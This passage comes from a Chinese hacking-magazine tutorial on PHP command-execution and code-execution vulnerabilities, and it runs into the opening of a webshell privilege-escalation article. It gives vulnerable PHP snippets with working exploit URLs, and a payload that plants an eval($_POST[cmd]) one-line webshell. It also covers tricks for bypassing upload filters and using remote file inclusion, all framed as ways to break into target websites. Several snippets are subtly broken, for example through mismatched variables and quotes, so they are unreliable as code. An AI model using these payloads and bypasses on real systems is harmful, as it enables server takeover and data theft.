

从图25中可以看出，PHP 中的命令执行函数 system() 的危害性是相当大的。现在我们再来看看 exec() 函数能做什么，把以下代码保存为 hack.php 文件并存放到网站的根目录下：

```php
<?php
$output = array();
echo "<pre>";
$last_line = exec("dir c:", $output);
echo "</pre>";
while(list($key, $value) = each($output))
{
echo $value . "<br />";
}
echo "命令输出的最后一行: ". $last_line . "<br />";
echo "命令的返回值: ". $retval;
?>
```

保存好后我们来浏览一下这个文件，如图26所示。



从图26中可以看出，利用 exec() 函数执行外部命令也同样成功了。接下来我们再测试一下 shell_exec() 函数，把如下代码保存为 hack9.php 文件并存放到网站的根目录下：

```php
<?php
echo "<pre>";
$output = shell_exec("dir c:");
echo "</pre>";
echo nl2br($output). "<br />";
?>
```

保存好后我们用浏览器访问一下这个文件，如图27所示。



## 漏洞新宠——PHP SCRIPT HACK 大全

从图27中可以看出，shell_exec() 函数也成功执行了命令。

> 其实 PHP 中能执行系统命令的函数有 system()、exec()、shell_exec() 和 passthru()。需要说明的是，passthru() 函数的作用是执行 UNIX 系统命令并显示原始的输出，当 UNIX 系统命令输出的是二进制数据，并且需要直接返回值给浏览器时，我们就需要使用 passthru() 函数去代替 system() 和 exec() 函数。

在 PHP 中有一个不为人熟知的命令执行运算符，就是反引号“`”（键盘左边“~”按键下的字符）。由于它不是一个函数，所以使得很多朋友都不知道它的用法，下面我用一个实例来演示一下它的危害。

把以下代码保存为 hack10.php 文件并存放在网站的根目录下：

```php
<?php
echo "<pre>";
$output = `dir d:`;
echo "</pre>";
echo nl2br($output) . "<br />";
?>
```

保存好后我们来看看页面执行后的结果，如图28所示。



呵呵，反引号这个 PHP 的隐藏杀手，威力真是毫不逊色于其它函数啊！接下来我们分析一下命令执行漏洞，先来看一段漏洞代码：

```php
<?php
$dir = $_GET["dir"];
if (isset($dir))
{
echo "<pre>";
system("dir " . $dir);
echo "</pre>";
}
?>
```

从代码中可以看出，变量 dir 在经过 $_GET 取值后被 system() 函数所利用，这就产生了命令执行漏洞。如果我们把变量 dir 的值改成要进行查看的目录名，不就可以列出这个目录的所有文件和文件名了吗？

假设存在漏洞的地址为“http://127.0.0.1/hack.php”，只要我们提交“http://127.0.0.1/hack.php?dir=f:”就能对 F 盘进行列目录了，如图29所示。

从图29中可以看出，我们成功对目标的 F 盘进行了列目录攻击。



#### 8、代码执行漏洞

代码执行漏洞是我个人认为危害最大的漏洞，国内关于它的资料还比较少见，它的实质是能使攻击者执行任意 PHP 代码。换句话说，就是攻击者可以使服务器运行他所编写的恶意 PHP 代码。代码执行漏洞不受任何 PHP 配置的限制，所以我们能利用它轻易地夺下目标网站。

首先我们来看看一段存在代码执行漏洞的代码：

```php
<?php
$myvar = "varname";
if (isset($_GET["a"]))
{
    $arg = $_GET["a"];
    eval("\$myvar = $a;");
    echo "\$myvar = " . $myvar;
}
?>
```

从代码中可以看出，变量 a 并没有经过任何过滤就被 eval() 函数调用了，这就产生了代码执行漏洞。我们提交如下 URL：“http://127.0.0.1/hack12.php?a=phpinfo();”，执行的结果如图30所示。



## 漏洞新宠——PHP SCRIPT HACK 大全

从图30中可以看出，我们自定义的代码“phpinfo()”被成功执行了，当在 magic_quote_gpc 配置为 off 的时候，我们还可以利用 system() 这个函数来执行外部命令，如提交“http://127.0.0.1/hack12.php?a=system("dir c:;")”这个 URL 就能执行“dir c:”命令，如图31所示。



Eval() 函数的漏洞大家应该看到了吧？下面我们再来看看最常见的 preg_replace() 函数的代码执行漏洞，以下是漏洞代码：

```php
<?php
$string = "Today is August 4, 2007";
$pattern = "/e/";
echo preg_replace($pattern, $_GET["Month"], $string);
?>
```

代码的含义是读取变量 Month 的值，然后替换掉变量 string 中的字符串 “August”。从正常的思维来看，似乎没有什么漏洞，但是我们仔细想想，变量 Month 是我们能够控制的变量，如果我们向它提交 “phpinfo();”，那么应用到 preg_replace() 函数里面就是 preg_replace("/e/", "phpinfo();", "Today is August 4, 2007");，这样的话不就可以执行到我们的代码了吗？马上来测试一下吧！

假设有一个存在代码执行漏洞的网页地址为“http://127.0.0.1/hack.php”，我们提交“http://127.0.0.1/hack.php?Month=phpinfo();”就能执行代码了，如图32所示。大家看到了吧？已经成功地执行了我们自定义的 PHP 代码。



要寻找 PHP 的代码执行漏洞，我们首先要对 PHP 有一定的认识，还有就是要收集可以执行 PHP 代码的函数。接下来我将知道的一些能够执行 PHP 代码的函数用实例给大家演示一下。

## 非安全·黑客手册2008第一增刊

首先来看一个名为 call_user_func() 的函数，以下是利用这个函数执行自定义代码的实例：

```php
<?php
if (isset($_GET["c"]))
{
 echo call_user_func($_GET["c"]); 
}
?>
```

这个函数有点特别，我们只需要提交“http://127.0.0.1/hack.php?c=phpinfo”（注意，这里的 phpinfo() 函数没有加括号）就能成功执行 PHP 的环境变量函数 phpinfo()，如图33所示。



下面再来看看一个叫 str_replace() 的函数，它也可以使得我们执行自定义的 PHP 代码，实例如下：

```php
<?php
$string = "AaBbCcDdEeFfGg";
$pattern = "/.*/e";
echo preg_replace($pattern, "str_replace('" . $_GET['text'] . "', '<i>' . $_GET['text'] . "</i>', $string)", $string);
?>
```

从这段代码中可以看出，我们可以自由地控制 text 变量，下面来测试这段代码是否存在代码执行漏洞。提交“http://127.0.0.1/hack.php?text=a', 'a', phpinfo()); //”，吻合到原来的正则语句就是“str_replace('a', 'a', phpinfo()); //”，执行后的页面如图34所示，我们自定义的代码已经被成功执行了。



最后来看一个逻辑错误导致的代码执行漏洞，漏洞代码如下：

```php
<?php if (isset($_GET["g"])) { $myfunc = $_GET["g"]; echo $myfunc(); } ?>
```

只要我们提交“http://127.0.0.1/hack.php?g=phpinfo”就能成功执行 phpinfo() 函数了，如图35所示。



还有一种存在逻辑错误的写法也能执行任意 PHP 代码，漏洞代码如下：

```php
<?php if (isset($_GET["g"])) { $myfunc = $_GET["g"]; echo ${"myfunc"}(); } ?>
```

提交“http://127.0.0.1/hack.php?g=phpinfo”同样能执行 phpinfo() 的代码，至于这个就留给朋友们自行测试了！

其实 PHP 代码执行漏洞的玩法还不止这些，例如我们可以用 print 打印一个字符串，提交“http://127.0.0.1/hack.php?a=print("nohack")”，执行的结果如图36所示。



我们还可以提交一个创建文件的代码让其创建一个 PHP 一句话小马，提交的 URL 为“http://127.0.0.1/hack.php?a=$fp=fopen("nohack.php","a");fwrite($fp,"<?php eval($_POST[cmd]);?>");fclose($fp);”。提交后我们就可以用一句话木马客户端来连接漏洞文件目录下的 nohack.php 文件了，密码为 cmd。

## 非安全·黑客手册2008第一增刊

## 9、杂谈PHP漏洞

在这最后一节，我将为各位读者提供点入侵 PHP 网站的一些 TIPS。其实 PHP 语言和其他语言比起来，攻击手法可是非常多的。我们在进行 PHP 环境下的注射时，要懂得仔细观察错误信息，因为 PHP 程序是很容易报错的，有时把注射地址的参数去掉就可能使得程序报错。PHP 在超时的时候也会报错，如果我们仔细观察这些出错信息，对我们入侵的过程很有帮助。所以在入侵 PHP 环境下的站点时，要想方设法令站点报错，如图37所示，就是著名黑客联盟 cnhacker 的出错信息。



从图37中的出错信息可以看出，网站出错的原因是 db_MYSQL.php 文件超时，而在出错的同时，也爆出了网站的绝对路径，这对我们入侵有很大的帮助。

接下来说说上传。有一些 PHP 程序在处理上传文件时是从左边获取文件后缀的，这使得我们可以绕过它的验证，只要把 PHP 木马改成“nohack.gif.php”这种名称就能绕过它的验证了。还有一种上传漏洞比较常见，其产生的原因是程序只判断了上传文件的文件头，那么我们只需在 PHP 木马的文件头加上“GIF89a”（GIF 图片的文件头）字符就能绕过它的验证了，如图38所示。



然后再说说跨站漏洞。很多人都说跨站漏洞很鸡肋，在 PHP 环境下 magic_quote_gpc 开启时更是显得一无是处。其实跨站的危害不比注射小，甚至比注射攻击更为恐怖！想对跨站漏洞了解更多可以参阅本增刊上卷的跨站专题！

最后来说说文件包含漏洞。要想黑箱测试出一个本地文件包含漏洞是比较困难的，但是远程文件包含漏洞在很多地方都可以看见，如“class.php?file=myfile.php”这种类型的 URL 就很有可能存在远程文件包含漏洞。我们可以尝试给它指定一个 PHP 木马的地址，让它执行我们的 PHP 后门代码。不过前面已经说过了，在 PHP 版本大于 5 的时候远程文件包含漏洞会受到限制，所以怎么去突破这一点还要看具体情况。

### 五、总结

PHP 的 HACK 手法还有很多，这里我就不一一说明了。文中介绍了一些 PHP 环境下常见的漏洞和一些未引起注意的漏洞，其中有一些是曾云好大哥在《精通脚本黑客》（该书电子版已经收录于《黑客手册2008年1、2季合订本》中）一书中没有提到的，本文也算是对这本书的一个补充吧！

在本书的光盘中有我收集的一些 PHP 入侵时的常用工具，各位读者可以自行研究。如果各位读者朋友还有什么疑问可以到黑客手册论坛（http://www.nohack.cn/bbs）或 http://00day.cn 来与我讨论。

文章到这里就结束了，最后要感谢 Flyh4t、流氓、云中鹰、小浩、co14、安全叶子的所有朋友，当然还有我的老婆叶子了。


## webshell 无处逃——提权20招


## webshell无处逃——提权20招

提权一直是网络安全的重要话题之一，在国内各大黑客论坛随处可见。随着获取 webshell 技术的普及，得到一个 webshell 变得很简单，前辈们曾说过，不想得到系统权限的黑客不是好黑客。当前的国内网络安全形势由原来的 SQL 注入逐渐向更高的层次发展了，关于提权的问题也应运而生。本文只是帮助入门的读者朋友做个引阶，讲解详细易懂，共分二十个提权方法。由于笔者技术水平有限，不可能将每个细节都写到，希望大家多多理解和体会。

## 一、上传ASPX、PHP、JSP脚本木马提权

在我们拿到 webshell 后都会遇到各种问题，现在的主机对 webshell 封杀得很厉害，而且有些限制了 webshell 只能浏览网站本身所在的目录，这是因为管理员对每个网站文件夹都建立了来宾账户，并对其他盘符赋予“拒绝”权限。权限设置的前提是，硬盘必须是 NTFS 格式。比如拿到一个 ASP 木马，它所在的组是 Guest 组，权限是很小的，不能在 CMD 中直接添加用户，所以 ASP 木马想在 CMD 中直接执行添加系统管理员的命令是不可能的。

在这样的情况下，可以尝试上传 .NET 木马。.NET 木马所属 Users 组权限，如图1所示，相对于 ASP 木马高，当盘符没有对 Users 组设置“拒绝”权限的话，就可以利用 ASPX 木马来访问一些敏感数据，得到提权的有效信息。

